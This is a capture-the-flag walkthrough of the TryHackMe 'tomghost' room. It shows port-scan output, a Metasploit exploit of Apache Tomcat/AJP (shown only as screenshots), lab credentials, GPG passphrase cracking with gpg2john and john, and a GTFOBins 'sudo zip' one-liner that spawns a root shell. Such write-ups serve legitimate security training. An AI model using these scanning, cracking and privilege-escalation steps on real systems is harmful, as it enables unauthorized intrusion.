 ```yaml
---
title: "tomghost"
date: 2024-12-24
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Easy
---
```




## Enumeration

```
 rustscan -a 10.10.177.90
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.177.90:53
Open 10.10.177.90:22
Open 10.10.177.90:8009
Open 10.10.177.90:8080
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:03 +0545
Initiating Ping Scan at 15:03
Scanning 10.10.177.90 [4 ports]
Completed Ping Scan at 15:03, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:03
Completed Parallel DNS resolution of 1 host. at 15:03, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:03
Scanning 10.10.177.90 (10.10.177.90) [4 ports]
Discovered open port 22/tcp on 10.10.177.90
Discovered open port 8080/tcp on 10.10.177.90
Discovered open port 8009/tcp on 10.10.177.90
Discovered open port 53/tcp on 10.10.177.90
Completed SYN Stealth Scan at 15:03, 0.20s elapsed (4 total ports)
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up, received echo-reply ttl 60 (0.17s latency).
Scanned at 2025-02-12 15:03:21 +0545 for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 60
53/tcp   open  domain     syn-ack ttl 60
8009/tcp open  ajp13      syn-ack ttl 60
8080/tcp open  http-proxy syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)


```

```
 nmap -sVC 10.10.177.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:02 +0545
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.68 seconds

```

Hmm I can see this too.
![](Pasted%20image%2020250212150938.png)
Hmm I just searched for a exploit of `# Apache Tomcat/9.0.30`.
Hoping if we find anything special and it worked.
![](Pasted%20image%2020250212151117.png)

So it is metasploit exploit.
I searched on msfconsole for making it simple.
![](Pasted%20image%2020250212151531.png)
And exploited it.
![](Pasted%20image%2020250212151557.png)
Hmm we got the username and password.
Hmmm.
`skyfuck:8730281lkjlkjdqlksalks`

![](Pasted%20image%2020250212151837.png)
And it worked on ssh.
![](Pasted%20image%2020250212152050.png)

Now lets do privelege escalation.
And found few things.
![](Pasted%20image%2020250212152257.png)
Hmmmm.
Now we can import that private gpg key in `tryhackme.asc`.
`gpg --import tryhackme.asc`
After this,
we can check this.
`gpg --list-secret-keys`
And do this.
` gpg --decrypt credential.pgp`

And it should be decrypted but there is a twist.
![](Pasted%20image%2020250212152808.png)
Its asking for a passphrase.
Hmmmm.


Then,I downloaded that both file to my host.
I used john to get hash and crack passphrase.
`gpg2john tryhackme.asc > hash.txt`
![](Pasted%20image%2020250212154903.png)
And simply cracked with john.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `
![](Pasted%20image%2020250212154941.png)
`alexandru`

And we decrypted that `credential.pgp`.
![](Pasted%20image%2020250212155130.png)
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
![](Pasted%20image%2020250212155234.png)

Hmm now lets try to become root.
And we can see something.
![](Pasted%20image%2020250212155329.png)
Now I immediately go to.
[[https://gtfobins.github.io/gtfobins/zip/#sudo]]

And got this.
```
Sudo(https://gtfobins.github.io/gtfobins/zip/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'
    sudo rm $TF

```

![](Pasted%20image%2020250212155617.png)
And exploited this and got root.
![](Pasted%20image%2020250212155645.png)

And done.
![](Pasted%20image%2020250212155753.png)
